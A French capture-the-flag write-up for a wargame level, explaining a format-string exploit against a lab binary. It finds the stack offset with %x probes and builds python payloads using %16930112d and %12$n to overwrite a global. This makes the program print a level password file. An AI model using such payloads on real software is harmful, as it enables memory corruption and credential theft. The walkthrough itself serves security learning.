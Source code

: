 ## Level 4

Comme au niveau précédent, nous désassemblons le binaire.

Appart le main, on retrouve deux fonctions p() et n().

n() fonctionne comme a l'exercice d'avant, il faut donc a nouveau exploiter les
formats strings.

![image](https://user-images.githubusercontent.com/29956389/94685649-0312b700-032a-11eb-9d8b-079d598b17ba.png)

![image](https://user-images.githubusercontent.com/29956389/94685679-0dcd4c00-032a-11eb-91fe-978e2c298a96.png)

![image](https://user-images.githubusercontent.com/29956389/94685729-22a9df80-032a-11eb-80d6-26a2ba95b231.png)

p() fait juste un appel a printf();


Par contre, la valeur a réécrite dans `m` vaut `0x1025544` soit `16 930 116` en
décimal. Cette variable se situe a l'adresse `0x08049810`.

On commence par trouver l'offset de notre argument dans la stack:

`$ ./level4`
> BBBB %x %x %x %x %x %x %x %x %x %x %x %x

On observe que la valeur `0x42424242 (BBBB)` est décalé de 12, due a l'appel de
fonction `p()` entre le `fgets()` et le `printf()`. On sait donc qu'il faudra utiliser
`'%12$n'`.

Avec toutes ces informations, on construit donc la commande:

`$ python -c 'print "\x10\x98\x04\x08" + "B"*16930112 + "%12$n"' | ./level4`

Sauf que écrire plus de 16 millions de `B` ne fonctionne évidement pas. (Et tant mieux)

On va donc allez un pas plus loin dans l'exploitation des format string, en
utilisant la taille de champ de `printf()`. Ce qui nous donne :

`$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' | ./level4`

Ce qui nous permet d'éviter de passer 16 millions de charactères, mais ils seront quand meme inséré par `printf()` lors de l'évalutation du format.

Pas besoin cette fois ci d'écrire le retour de la fonction dans un fichier, car
la commande executé par `system()` n'est pas un shell mais, `cat
/home/user/level5/.pass`.

Le flag est donc directement affiché sur notre terminal.
